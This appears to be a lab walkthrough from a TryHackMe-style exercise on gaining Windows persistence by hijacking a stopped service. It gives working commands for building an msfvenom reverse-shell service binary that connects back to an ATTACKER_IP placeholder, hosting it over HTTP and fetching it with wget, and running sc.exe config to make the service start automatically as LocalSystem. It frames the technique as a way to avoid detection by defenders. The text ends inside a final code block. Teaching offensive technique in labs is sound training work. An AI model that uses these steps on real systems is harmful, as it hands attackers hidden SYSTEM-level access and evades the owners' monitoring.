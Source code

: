 While creating new services for persistence works quite well, the blue team may monitor new service creation across the network. We may want to reuse an existing service instead of creating one to avoid detection. Usually, any disabled service will be a good candidate, as it could be altered without the user noticing it.

You can get a list of available services using the following command:
```shell-session
C:\> sc.exe query state=all
SERVICE_NAME: THMService1
DISPLAY_NAME: THMService1
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 1  STOPPED
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

You should be able to find a stopped service called THMService3. To query the service's configuration, you can use the following command:
```shell-session
C:\> sc.exe qc THMService3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMService3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2 AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\MyService\THMService.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMService3
        DEPENDENCIES       : 
        SERVICE_START_NAME : NT AUTHORITY\Local Service
```

There are three things we care about when using a service for persistence:
- The executable (**BINARY_PATH_NAME**) should point to our payload.
- The service **START_TYPE** should be automatic so that the payload runs without user interaction.
- The **SERVICE_START_NAME**, which is the account under which the service will run, should preferably be set to **LocalSystem** to gain SYSTEM privileges.

Let's start by creating a new reverse shell with msfvenom:
```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

```
python3 -m http.server 8000
```

```
wget -P "C:\path\to\directory" http://<your-ip-address>:8000/yourfile.exe
```

 Reconfigure "THMservice3" parameters, we can use the following command:
```shell-session
C:\> sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

Then query the service's configuration again to check if all went as expected:
```shell-session
C:\> sc.exe qc THMservice3
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: THMservice3
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\rev-svc2.exe
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : THMservice3
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
